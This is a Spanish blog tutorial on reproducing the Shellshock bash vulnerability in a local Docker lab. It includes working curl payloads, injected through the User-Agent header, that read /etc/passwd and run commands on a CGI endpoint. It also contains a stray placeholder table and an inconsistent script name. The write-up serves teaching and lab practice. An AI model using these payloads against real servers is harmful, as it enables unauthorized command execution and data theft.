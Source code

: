 ```yaml
---
layout: single
title:  Explotando la vulnerabilidad shellshock en un entorno controlado
excerpt: "En este post mostraré como crear un pequeño laboratorio a traves de docker sobre la vulnerabilidad de shellshock hasta ganar acceso al sistema"
date: 2021-05-09
classes: wide
header:
    teaser: /assets/images/shellshock/portada.png
    teaser_home_page: true
categories:
    - vulnerability
tags:
    - linux
    - docker
---
```



<p align="center">
<img src="/assets/images/shellshock/portada.png">
</p>

- [Requisitos del laboratorio](#requisitos-del-laboratorio)
- [Laboratorio](#laboratorio)
- [Construyendo el Dockerfile](#construyendo-el-dockerfile)
- [Obteniendo una shell](#obteniendo-una-shell)

## Requisitos del laboratorio
- Maquina virtual Parrot OS
- Docker 
- Git 

## Shellshock ¿Que es?
Shellshock , también conocido como Bashdoor , es una familia de errores de seguridad de la familia Bash Unix.
Esta vulnerabilidad existe desde hace un tiempo, pero debido a la ubicuidad de las máquinas Unix conectadas a la web, Shellshock sigue siendo una amenaza muy real, especialmente para los sistemas sin parches.
Bash es un intérprete o intérprete que permite ejecutar comandos en un sistema, normalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix y, como tal, se puede encontrar en Linux, macOS y otras variantes de Unix. Esta es la razón por la que Shellshock es tan severo: más de la mitad de los servidores web en Internet ejecutan Unix.

----

# Laboratorio
Para replicar esta vulnerabilidad en nuestro sistema es necesario descargar este [proyecto](https://github.com/Zenithar/docker-shellshockable) el cual viene un archivo Dockerfile que construiremos con docker para hacer nuestra práctica
```
git clone https://github.com/Zenithar/docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/1.PNG">
  </p>

## Contruyendo el Dockerfile
Teniendo ya el repositorio en nuestra maquina aplicaremos el siguiente comando como el usuario root.
```bash
sudo docker build -t shellshock docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/2.PNG">
  </p>

Listamos las todas las imagenes para verificar la construccion de la imagen shellshock.  
Y posteriormente corremos el contenedor
<p align="center">
<img src="/assets/images/shellshock/3.PNG">
  </p>

----

Con el comando ```ifconfig docker0``` comprobaremos en que segmento de red se encuentra el contenedor.
<p align="center">
<img src="/assets/images/shellshock/4.PNG">
  </p>


Se puede observar que la ip en el que se esta ejecutando el servicio web es la 172.17.0.2
<p align="center">
<img src="/assets/images/shellshock/5.PNG">
  </p>


Si nos dirigimos al navegador nos muestra la pagina por defecto de apache.
<p align="center">
<img src="/assets/images/shellshock/6.PNG">
  </p>


Aplicaremos fuzzing a la pagina web para ver que con cosas interesantes nos podemos topar para ello haré uso de la utilidad de dirsearch que lo puedes descargar de [aquí](https://github.com/maurosoria/dirsearch).
|columna 1 | columan 2 | columna 3 |
|----------|:----------|:----------|
|fila1     |elemento 1 |manzana    |
|fila2     |elemento 2 |pera       |
|fila3     |elemento 3 |granadilla |

<p align="center">
<img src="/assets/images/shellshock/7.PNG">
  </p>

Si verificamos este directopio en la web nos manda un mensaje de que no tenemos acceso, sin embargo sabemos que existe asi que volveremos a aplicar fuzzing a esta ruta nueva.
<p align="center">
<img src="/assets/images/shellshock/8.PNG">
  </p>

Ha sido posible encontrar la ruta **/cgi-bin/sockme.cgi**.
<p align="center">
<img src="/assets/images/shellshock/9.PNG">
  </p>

El siguiente comando de POC es posible obtener ejecución remota de comandos dentro del servidor.
```bash
curl -A "() { foo;};echo;/bin/cat /etc/passwd" "http://172.17.0.2/cgi-bin/shockme.cgi"

```
<p align="center">
<img src="/assets/images/shellshock/10.PNG">
  </p>

## Obteniendo una shell
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" "http://172.17.0.2/cgi-bin/shockme.cgi"
```
<p align="center">
<img src="/assets/images/shellshock/11.PNG">
  </p>






